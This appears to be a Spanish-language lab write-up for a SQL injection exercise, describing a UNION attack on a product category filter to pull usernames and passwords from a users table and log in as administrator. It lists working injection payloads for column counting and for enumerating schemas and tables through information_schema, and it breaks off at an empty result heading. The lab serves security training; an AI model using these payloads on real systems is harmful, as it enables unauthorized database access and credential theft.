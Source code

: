 
**Ejemplo**

Gifts' order by 3-- -


' union SELECT null,'G0Puak',null -- -


# Laboratorio: ataque UNION de inyección SQL, recuperación de datos de otras tablas

Este laboratorio contiene una vulnerabilidad de inyección SQL en el filtro de categoría de producto. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que puede utilizar un ataque UNION para recuperar datos de otras tablas. Para construir un ataque de este tipo, es necesario combinar algunas de las técnicas que aprendiste en laboratorios anteriores.

La base de datos contiene una tabla diferente llamada users, con columnas llamadas username y password.

Para resolver el laboratorio, realice un ataque UNION de inyección SQL que recupere todos los nombres de usuario y contraseñas, y use la información para iniciar sesión como administrator usuario.

Los pasos clave son:

- Verificar cuántas columnas tiene la consulta original y cuáles aceptan texto, tal como se vio en los labs anteriores.
- Una vez identificado eso, se construye un payload que sustituye la consulta original por una que seleccione directamente los valores de las columnas ‘username‘ y ‘password‘ desde la tabla ‘users‘.
- Al inyectar correctamente la consulta, la respuesta mostrará las credenciales de todos los usuarios, incluida la del administrador.


**Ejemplo**

' order by 3-- -


### nombre de los esquemas 

' union SELECT null,schema_name FROM information_schema.schemata -- -

**Resultado**

-information_schema
-public
-pg_catalog

### nombres de las tablas 

' union SELECT null,table_name FROM information_schema.tables -- -


### Tablas de una base de datos 

' union SELECT null,table_name FROM information_schema.tables WHERE table_schema='public' -- -


**Resultado**
